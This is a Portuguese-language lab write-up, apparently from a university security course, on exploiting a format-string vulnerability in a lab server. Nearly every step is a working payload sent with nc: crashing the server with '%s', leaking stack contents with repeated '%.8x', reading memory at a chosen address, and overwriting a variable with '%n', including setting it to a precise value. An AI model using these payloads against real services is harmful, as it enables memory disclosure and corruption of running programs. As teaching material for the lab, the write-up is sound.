




## Task 1

Crashar o servidor:

Bastou inserir a string %s.

```
$ echo '%s' | nc 10.9.0.5 9090
```

O servidor pode estar à espera de um formato ou entrada específica que não é fornecida pela string "%s" e, portanto, optemos um crash (não apareceu a mensagem "(^_ ^)(^_ ^)  Returned properly (^_ ^)(^_^)").

## Task 2.A

Para imprimir os dados da stack precisamos apenas enviar para o servidor o vários "%.8x". Dessa forma, podemos descobrir o endereço de memória dos valores da stack. Portanto, para identificar exatamente onde começa o buffer, inserimos 4 caracteres que facilmente reconhecemos. Neste caso, AAAA cujo valore em hexadecimal é 41414141. Desta maneira, podemos determinar exatamente o tamanho do buffer.

```
echo AAAA%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x | nc 10.9.0.5 9090
```



Como podemos ver, existem 504 caracteres entre AAAA e 41414141. Podemos calcular o número de endereços na stack: 504/8 = 63.

## Task 2.B

Para imprimir o conteúdo da string so endereço da secret message (0x080b4008), basta enviar, como input, o endereço da mensagem seguido de 63 "%.8x" e, no final, um "%s", pois, como vimos da task anterior, o endereço 64 é o que imprime o valor do endereço. Obtemos:

echo $( printf "\x08\x40\x0b\x08")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x %s | nc 10.9.0.5 9090



## Task 3.A

Para alterar o valor da variável 0x11223344 com o endereço 0x080e5068 podemos seguir um lógica parecida com a da task anterior. Trocamos o "%s" por "%n", uma vez que este comando escreve na memória o número de caracteres escritos até então. Alteramos também o endereço para o que corresponde à variável que queremos modificar.

```
echo $( printf "\x68\x50\x0e\x08")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x %n | nc 10.9.0.5 9090
```



## Task 3.B

Finalmente, queremos mudar o valor da mesma variável par aum valor expecífico (0x5000). Para isso podemos escrever 20480 caracteres seguido de "%n" (0x5000 é 20480 em decimal). Deste modo, precisamos de garantir que o input até "%n" tenha exatamente 20480. Para isso podemos apenas adicionar o número de caracteres que nos falta (20480 - 4 - 62*8 = 19980). Assim obtemos:

```
echo $( printf "\x68\x50\x0e\x08")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.19980x%n | nc 10.9.0.5 9090
```



